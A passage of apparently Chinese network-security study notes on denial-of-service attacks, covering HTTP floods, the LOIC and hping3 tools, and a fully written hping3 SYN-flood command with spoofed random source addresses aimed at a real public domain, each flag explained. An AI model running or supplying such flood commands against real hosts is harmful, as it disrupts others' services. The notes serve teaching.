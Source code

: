### §3.2.3 HTTP泛洪攻击

http包的体积远大于tcp和udp，向服务器发送大量下载，然后拒绝下载或下载一点后断开连接，攻击效果更好。

### §3.2.4 DNS放大攻击

### §3.2.5 常用工具

#### §3.2.5.1 LOIC（Low Orbit Ion Cannon，低轨道离子炮）

![LOIC界面](网络安全/image-20210706182147907.png)

- Port：端口
- Method：选择TCP/UDP/HTML泛洪攻击
- Threads：线程数

#### §3.2.5.2 Nping

#### §3.2.5.3 Hping3

```shell
root@localhost# hping3 -c 100 -d 120 -S -w 64 -p 80 --flood --rand-source baidu.com
//
-c 发送数据包个数
-d 每个数据包的大小
-S 发送SYN数据包
-w TCP window大小
-p 指定端口
--flood 尽可能快地发送数据包
--rand-source 使用随机IP地址
-a或-spoof 隐藏主机名
```
